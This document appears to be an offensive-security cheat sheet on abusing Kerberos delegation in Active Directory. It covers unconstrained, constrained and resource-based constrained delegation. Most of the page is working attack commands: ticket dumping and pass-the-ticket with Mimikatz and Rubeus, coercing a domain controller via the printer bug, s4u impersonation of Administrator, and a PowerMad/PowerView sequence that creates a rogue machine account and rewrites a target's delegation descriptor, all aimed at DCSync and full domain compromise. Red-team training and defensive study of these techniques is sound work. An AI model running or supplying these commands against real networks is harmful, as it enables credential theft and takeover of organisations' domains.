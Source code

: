 # Kerberos Delegation

## Unconstrained Delegation

{% embed url="https://resources.infosecinstitute.com/topic/active-directory-series-unconstrained-delegation" %}

Unrestricted kerberos delegation is a privilege that can be assigned to a domain computer or a user; Usually, this privilege is given to computers (in this lab, it is assigned to a computer IIS01) running services like IIS, MSSQL, etc.; Those services usually require access to some back-end database (or some other server), so it can read/modify the database on the authenticated user's behalf; When a user authenticates to a computer that has unresitricted kerberos delegation privilege turned on, authenticated user's TGT ticket gets saved to that computer's memory; The reason TGTs get cached in memory is so the computer (with delegation rights) can impersonate the authenticated user as and when required for accessing any other services on that user's behalf. Essentially this looks like so: User --- authenticates to ---> IIS server ---> authenticates on behalf of the user ---> DB server

```
# get tickets
privilege::debug sekurlsa::tickets /export sekurlsa::tickets /export
Rubeus dump /service:krbtgt /nowrap
Rubeus dump /luid:0xdeadbeef /nowrap


# get unconstrained machines
Get-NetComputer -Unconstrained
Get-DomainComputer -Unconstrained -Properties DnsHostName



```

Unconstrained Delegation can be set on a _frontend service_ (e.g., an IIS web server) to allow it to delegate on behalf of a user to _any service in the domain_ (towards a _backend service_, such as an MSSQL database).

DACL UAC property: `TrustedForDelegation`.

### Mimikatz

```
sekurlsa::tickets /export
kerberos::ptt c:\path\to\ticket.kirbi
```

### Rubeus

```
.\Rubeus.exe triage
.\Rubeus.exe dump /luid:0x5379f2 /nowrap
.\Rubeus.exe ptt /ticket:doIFSDCC[...]
```

We can also gain the hash for a domain controller machine account, if that DC is vulnerable to the printer bug. If we do this successfully, we can DCSync the domain controller (see below) to completely compromise the current domain.

On the server with Unconstrained Delegation, monitor for new tickets with Rubeus.

```
.\Rubeus.exe monitor /interval:5 /nowrap
```

From attacking machine, entice the Domain Controller to connect using the printer bug. Binary from [here](https://github.com/leechristensen/SpoolSample).

```powershell
.\MS-RPRN.exe \\dc.targetdomain.com \\unconstrained-server.targetdomain.com
```

The TGT for the machine account of the DC should come in in the first session. We can pass this ticket into our current session to gain DCSync privileges (see below).

```powershell
.\Rubeus.exe ptt /ticket:doIFxTCCBc...
```

## Constrained Delegation

```
# get tickets
privilege::debug sekurlsa::tickets /export sekurlsa::tickets /export
Rubeus dump /service:krbtgt /nowrap
Rubeus dump /luid:0xdeadbeef /nowrap

# get constrained delegation machines
Get-DomainComputer -TrustedToAuth -Properties DnsHostName, MSDS-AllowedToDelegateTo
MATCH (c:Computer), (t:Computer), p=((c)-[:AllowedToDelegate]->(t)) RETURN p
MATCH (u:User {owned:true}), (c:Computer {name: "<MYTARGET.FQDN>"}), p=shortestPath((u)-[*1..]->(c)) RETURN p
```

Constrained delegation can be set on the _frontend server_ (e.g. IIS) to allow it to delegate to _only selected backend services_ (e.g. MSSQL) on behalf of the user.

DACL UAC property: `TrustedToAuthForDelegation`. This allows `s4u2self`, i.e. requesting a TGS on behalf of _anyone_ to oneself, using just the NTLM password hash. This effectively allows the service to impersonate other users in the domain with just their hash, and is useful in situations where Kerberos isn’t used between the user and frontend.

DACL Property: `msDS-AllowedToDelegateTo`. This property contains the SPNs it is allowed to use `s4u2proxy` on, i.e. requesting a forwardable TGS for that server based on an existing TGS (often the one gained from using `s4u2self`). This effectively defines the backend services that constrained delegation is allowed for.

**NOTE:** These properties do NOT have to exist together! If `s4u2proxy` is allowed without `s4u2self`, user interaction is required to get a valid TGS to the frontend service from a user, similar to unconstrained delegation.

### Rubeus

In this case, we use Rubeus to automatically request a TGT and then a TGS with the `ldap` SPN to allow us to DCSync using a machine account.

```
# Get a TGT using the compromised service account with delegation set (not needed if you already have an active session or token as this user)
.\Rubeus.exe asktgt /user:svc_with_delegation /domain:targetdomain.com /rc4:2892D26CDF84D7A70E2EB3B9F05C425E

# Use s4u2self and s4u2proxy to impersonate the DA user to the allowed SPN
.\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:Administrator /msdsspn:time/dc /ptt

# Same as the two above steps, but access the LDAP service on the DC instead (for dcsync)
.\Rubeus.exe s4u /user:sa_with_delegation /impersonateuser:Administrator /msdsspn:time/dc /altservice:ldap /ptt /rc4:2892D26CDF84D7A70E2EB3B9F05C425E
```

## Resource-based constrained delegation <a href="#resource-based-constrained-delegation" id="resource-based-constrained-delegation"></a>

```
rubeus.exe hash /password:<computer_pass> /user:<computer> /domain:<domain>
getST.py -spn host/<dc_fqdn> '<domain>/<computer_account>:<computer_pass>' -impersonate Administrator --dc-ip <dc_ip>

rubeus.exe s4u /user:<fake_computer$> /aes256:<AES 256 hash> /impersonateuser:administrator /msdsspn:cifs/<victim.domain.local> /altservice:krbtgt,cifs,host,http,winrm,RPCSS,wsman,ldap /domain:domain.local /ptt
```

Resource-Based Constrained Delegation (RBCD) configures the _backend server_ (e.g. MSSQL) to allow _only selected frontend services_ (e.g. IIS) to delegate on behalf of the user. This makes it easier for specific server administrators to configure delegation, without requiring domain admin privileges.

DACL Property: `msDS-AllowedToActOnBehalfOfOtherIdentity`.

In this scenario, `s4u2self` and `s4u2proxy` are used as above to request a forwardable ticket on behalf of the user. However, with RBCD, the KDC checks if the SPN for the requesting service (i.e., the _frontend service_) is present in the `msDS-AllowedToActOnBehalfOfOtherIdentity` property of the _backend service_. This means that the _frontend service_ needs to have an SPN set. Thus, attacks against RBCD have to be performed from either a service account with SPN or a machine account.

### **Exploitation**

If we compromise a _frontend service_ that appears in the RBCD property of a _backend service_, exploitation is the same as with constrained delegation above. This is however not too common.

A more often-seen attack to RBCD is when we have `GenericWrite`, `GenericAll`, `WriteProperty`, or `WriteDACL` permissions to a computer object in the domain. This means we can write the `msDS-AllowedToActOnBehalfOfOtherIdentity` property on this machine account to add a controlled SPN or machine account to be trusted for delegation. We can even create a new machine account and add it. This allows us to compromise the target machine in the context of any user, as with constrained delegation.

```
# Create a new machine account using PowerMad
New-MachineAccount -MachineAccount NewMachine -Password $(ConvertTo-SecureString 'P4ssword123!' -AsPlainText -Force)

# Get SID of our machine account and bake raw security descriptor for msDS-AllowedtoActOnBehalfOfOtherIdentity property on target
$sid = Get-DomainComputer -Identity NewMachine -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"
$SDbytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDbytes,0)

# Use PowerView to use our GenericWrite (or similar) priv to apply this SD to the target
Get-DomainComputer -Identity TargetSrv | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

# Finally, use Rubeus to exploit RBCD to get a TGS as admin on the target
.\Rubeus.exe s4u /user:NewMachine$ /rc4:A9A70FD4DF48FBFAB37E257CFA953312 /impersonateuser:Administrator /msdsspn:CIFS/TargetSrv.targetdomain.com /ptt
```
